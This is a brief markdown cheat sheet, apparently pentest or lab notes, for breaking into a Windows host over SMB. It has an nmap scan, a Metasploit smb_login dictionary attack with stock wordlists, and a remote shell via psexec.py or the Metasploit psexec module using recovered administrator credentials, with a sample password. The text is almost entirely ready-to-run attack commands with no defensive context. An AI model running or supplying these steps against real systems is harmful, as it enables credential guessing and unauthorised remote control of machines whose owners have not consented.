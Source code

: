 # Exploiting SMB using Psexec

1. Scan the target for open ports.
```
nmap -sV -sC <TARGET>
```

2. Perform a dictionary attack on Port 445 using `smb_login` Metasploit module

```
use auxiliary/scanner/smb/smb_login
set RHOST 10.5.30.42
set USER_FILE /usr/share/wordlists/metasploit/common_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false 
run
```

3. Gain an interactive shell using the obtained credentials via `psexec` tool.

```
psexec.py administrator:password@10.5.30.42
```


#### METASPLOIT ALTERNATIVE:

```
use exploit/windows/smb/psexec   
set RHOST 10.5.30.42
set SMBUSER administrator
set SMBPASS qwertyuiop
run
```

